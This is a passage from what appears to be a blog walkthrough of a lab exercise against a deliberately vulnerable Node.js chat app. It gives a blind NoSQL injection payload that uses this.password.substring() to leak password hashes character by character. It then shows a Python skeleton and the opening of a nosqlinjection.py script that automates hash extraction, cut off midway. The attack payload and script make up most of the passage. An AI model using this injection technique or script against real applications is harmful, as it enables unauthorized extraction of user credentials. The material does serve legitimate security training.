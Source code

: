 ```
username=anton' && this.password.substring(58,59) =='8&password=0x4rt3mis
```

I'll use this.password.substring() function to get each character one time. It'll be iterating trough it and making the comparation with the letter or number, once we already have the FALSE/TRUE message, it's easy to see when it is the correct letter/number and when it's not.

We will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is

We extracted from two users, bmdyy and anton, but it's possible for all users we have on the web app

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-05-bmdyy-ChatJS/2021-11-05-bmdyy-ChatJS%2007:50:39.png)

nosqlinjection.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Blind NOSQLInjection Hash Extract from Chat.js

import argparse
import requests
import sys
import string
import urllib.parse

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
def hashExtract(rhost,username):
    url = "http://%s" %rhost + ":3000/register"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = []
    list = string.ascii_letters + string.digits
    limit_inf = 0
    limit_sup = limit_inf + 1
    iterator = 0
```